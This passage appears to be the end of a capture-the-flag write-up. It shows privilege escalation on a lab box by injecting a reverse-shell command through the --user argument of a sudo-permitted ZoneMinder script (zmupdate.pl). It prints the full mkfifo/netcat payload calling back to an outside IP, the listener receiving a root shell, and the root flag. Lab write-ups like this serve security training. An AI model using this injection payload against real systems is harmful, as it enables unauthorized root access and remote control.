 Doing code audit, we find that ```zmupdate.pl``` does not properly sanitize its inputs and we can use it to trigger a reverse shell payload with root privileges. NOTE that the user parameter must be used with single quotes. Using double quotes will trigger the reverse shell payload but it does not give a root shell

```
zoneminder@surveillance:/tmp$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.2 4000 >/tmp/f)' --pass=password              
passwordmkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.2 4000 >/tmp/f)' --pass=p

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : n

Upgrading database to version 1.36.32
Upgrading DB to 1.26.1 from 1.26.0
-----------------------------------------------------------------------------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/Desktop/surveillance/CVE-2023-26035]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.245] 36640
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# Obtaining root flag
```
# cat /root/root.txt
65a5e2f6e3744585567d2aa8a84db3a8
```
